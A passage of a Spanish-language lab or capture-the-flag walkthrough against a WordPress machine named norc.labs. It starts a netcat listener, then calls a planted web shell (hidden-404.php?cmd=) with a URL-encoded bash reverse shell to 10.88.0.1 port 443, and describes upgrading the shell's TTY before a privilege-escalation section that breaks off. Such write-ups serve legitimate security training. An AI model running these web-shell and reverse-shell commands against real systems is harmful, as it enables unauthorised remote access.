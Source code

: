 Antes de enviar la solicitud no olvidemos lanzar un `listener` con `nc`

~~~ bash
nc -lvnp 443
~~~

![[Pasted image 20241031002132.png]]

Finalmente ejecutamos...

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=bash -c "bash -i >%26%2Fdev%2Ftcp%2F10.88.0.1%2F443 0>%261"
~~~

![[Pasted image 20241031002450.png]]

![[Pasted image 20241031002907.png]]

# Escalada de privilegios
---
## Tratamiento de la TTY

Haremos un procedimiento para poder tener una consola más interactiva (`Ctrl + C`, `Ctrl + L`), en la máquina víctima ejecutamos los siguientes comandos

~~~ bash
script /dev/null -c bash
export TERM=xterm
~~~

En este punto presionamos  CTRL + Z, volveremos a nuestra máquina, solamente hemos dejado el proceso en segundo plano

~~~ bash
stty raw -echo; fg
~~~

Una vez volvimos a la `reverse shell`, volvemos a iniciar la terminal

~~~ bash
reset xterm
~~~

Por último debemos ajustar el tamaño de la terminal, vemos nuestras proporciones en **nuestra máquina**

~~~ bash
stty size
~~~

~~~ bash
22 85
~~~

Ahora usamos la salida de este comando para ajustar las proporciones en la `reverse shell`, las dimensiones podrán variar de acuerdo con el tamaño de tu ventana en la terminal

